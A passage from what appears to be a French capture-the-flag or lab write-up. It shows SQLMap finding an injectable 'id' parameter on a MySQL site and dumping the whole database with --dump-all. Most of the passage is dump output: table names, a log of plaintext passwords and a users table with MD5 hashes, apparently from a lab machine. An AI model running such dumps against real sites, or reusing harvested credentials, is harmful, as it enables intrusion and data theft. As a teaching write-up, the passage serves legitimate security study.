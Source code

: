 En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé ```id``` est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs```, et tant qu'à faire, autant récupérer tout le contenu de la base de données avec ```--dump-all```. Voici en bref les résultats remontés par l'outil.

```console
[*] information_schema
[*] mysql
[*] roundcube
[*] website

Database: website
[9 tables]
+-------------------+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+-------------------+

Database: website
Table: log
[5 entries]
+----+------------------------------------------------------------------------------------+
| id | message                                                                            |
+----+------------------------------------------------------------------------------------+
| 1  | User test@nowhere.com registered with id 113 and password test                     |
| 2  | User ruby@localhost.localdomain reset their password to Shelly2012                 |
| 3  | User ruby@localhost.localdomain logged into the admin site.                        |
| 4  | User charles@localhost.localdomain used recovery.  Their password rest to changeme |
| 5  | User test@test.test registered with id 114 and password test                       |
+----+------------------------------------------------------------------------------------+

Database: website
Table: users
[13 entries]
+---------+-------------------------------+-----------------+-----------------------------------+
| user_id | username                      | realname        | password                          |
+---------+-------------------------------+-----------------+-----------------------------------+
| 3       | brian@localhost.localdomain   | Brian Hershel   | e22f07b17f98e0d9d364584ced0e3c18  |
| 4       | john@localhost.localdomain    | John Durham     | 0d9ff2a4396d6939f80ffe09b1280ee1  |
| 5       | alice@localhost.localdomain   | Alice Wonder    | 2146bf95e8929874fc63d54f50f1d2e3  |
| 6       | ruby@localhost.localdomain    | Ruby Spinster   | 9f80ec37f8313728ef3e2f218c79aa23  |
| 7       | leon@localhost.localdomain    | Leon Parnetta   | 5d93ceb70e2bf5daa84ec3d0cd2c731a  |
| 8       | julia@localhost.localdomain   | Julia Fields    | ed2539fe892d2c52c42a440354e8e3d5  |
| 9       | michael@localhost.localdomain | Michael Saint   | 9c42a1346e333a770904b2a2b37fa7d3  |
| 10      | bruce@localhost.localdomain   | Bruce Pottricks | 3a24d81c2b9d0d9aaf2f10c6c9757d4e  |
| 11      | neil@localhost.localdomain    | Neil Felstein   | 4773408d5358875b3764db552a29ca61  |
| 12      | charles@localhost.localdomain | Charles Adams   | b2a97bcecbd9336b98d59d9324dae5cf  |
| 36      | foo@bar.com                   | <blank>         | 4cb9c8a8048fd02294477fcb1a41191a  |
| 113     | test@nowhere.com              | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
| 114     | test@test.test                | <blank>         | 098f6bcd4621d373cade4e832627b4f6  |
+---------+-------------------------------+-----------------+-----------------------------------+
```
